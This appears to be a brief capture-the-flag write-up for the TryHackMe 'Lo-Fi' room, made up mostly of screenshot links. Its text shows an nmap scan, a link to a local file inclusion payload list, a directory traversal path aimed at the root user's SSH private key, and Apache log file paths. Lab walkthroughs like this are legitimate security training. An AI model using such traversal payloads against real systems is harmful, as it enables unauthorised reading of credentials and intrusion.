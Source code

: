https://tryhackme.com/room/lofi
>IP 10.10.216.128


```
sudo nmap -p- 10.10.216.128 -sC -sV -vv  
```
![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-FI/screenshots/2025-01-25071906.png)

![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-FI/screenshots/2025-01-25071719.png)


```
https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt
```
![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-FI/screenshots/2025-01-25072835.png)
## Grep

![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-FI/screenshots/2025-01-25073039.png)


![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-FI/screenshots/2025-01-25073359.png)\

```
../../..//root/.ssh/id_rsa 
```

![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-FI/screenshots/2025-01-25074045.png)

![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-FI/screenshots/2025-01-25074404.png)

```
/var/log/apache2/error.log
/var/log/apache2/access.log
```

Flag in /flag.txt
![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-FI/screenshots/2025-01-25075819.png)


